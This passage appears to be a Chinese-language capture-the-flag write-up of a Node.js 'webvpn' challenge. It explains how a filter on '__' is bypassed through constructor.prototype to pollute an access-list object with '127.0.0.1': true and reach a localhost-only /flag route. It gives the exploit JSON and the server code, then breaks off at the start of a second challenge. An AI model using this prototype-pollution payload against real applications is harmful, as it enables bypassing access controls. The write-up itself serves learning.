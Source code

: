 本题的构造方法(constructor)为userStorage
而上述代码中的这句
`if (key.indexOf("__") != -1) {`
把___过滤了，相当于把__proto__过滤了
```javascript
app.get("/home", (req, res) => {
  if (!req.session.username) {
    res.sendStatus(403);
    return;
  }
  res.render("home", {
    username: req.session.username,
    strategy: ((list)=>{
      var result = [];
      for (var key in list) {
        result.push({host: key, allow: list[key]});
      }
      return result;
    })(userStorage[req.session.username].strategy),
  });
});
```
userStorage.username.info.constructor.prototype=object  
要把127.0.0.1污染到strategy中
通过constructor->prototype的方法调用它的object，污染strategy
所以exp如下
```json
{
    "constructor":{
        "prototype":{
            "127.0.0.1":true       
        }
    }
}
```
```javascript
// demo service behind webvpn
app.get("/flag", (req, res) => {
  if (
    req.headers.host != "127.0.0.1:3000" ||
    req.hostname != "127.0.0.1" ||
    req.ip != "127.0.0.1" 
  ) {
    res.sendStatus(400);
    return;
  }
  const data = fs.readFileSync("/flag");
  res.send(data);
});

app.listen(port, '0.0.0.0', () => {
  console.log(`app listen on ${port}`);
});
```
最后是web服务在3000端口读flag
### VCTF-hackjs
```javascript
const express = require('express')
const fs = require('fs')
var bodyParser = require('body-parser');
const app = express()
app.use(bodyParser.urlencoded({
    extended: true
}));
```